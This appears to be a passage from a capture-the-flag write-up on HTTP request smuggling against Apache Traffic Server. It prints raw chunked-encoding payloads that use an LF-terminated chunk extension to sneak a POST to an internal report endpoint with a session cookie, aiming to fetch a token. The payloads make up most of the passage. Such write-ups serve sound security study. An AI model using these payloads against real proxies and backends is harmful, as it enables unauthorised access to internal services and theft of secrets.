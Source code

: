 
```bash 
GET /login HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

2 ; xx
f2
0

POST /do-report HTTP/1.1
Host: app:8000
Content-Type: application/json
Content-Length: 37
Cookie: connect.sid=s%3AWJQuXDbK68vu2WoFyeYd_4BF7K83hYWC.M2PqksbXo5wLOai3PcCJSoKucZxS6JeJzsu3b56YPt8

{"url":"http://localhost:8000/token"}

0

```

*If you're not familiar with how [Chunked Transfer Encoding](https://en.wikipedia.org/wiki/Chunked_transfer_encoding) works, I do suggest you read up about it a little before carrying on with the rest of this writeup*

Let's try to understand what is happening. In the example above, `; xx` is treated as the [chunk extension](https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1) and `2` is intrepreted as the chunk size.

Now, because ATS does not treat CRLF as the line ending but instead it treats LF as the line ending, we can modify the chunked extension to a payload like `\nxx` and as a result, ATS would see the following request:

```bash
GET /login HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

2 \nxx
f2
0

POST /do-report HTTP/1.1
Host: app:8000
Content-Type: application/json
Content-Length: 37
Cookie: connect.sid=s%3AWJQuXDbK68vu2WoFyeYd_4BF7K83hYWC.M2PqksbXo5wLOai3PcCJSoKucZxS6JeJzsu3b56YPt8

{"url":"http://localhost:8000/token"}

0

``` 
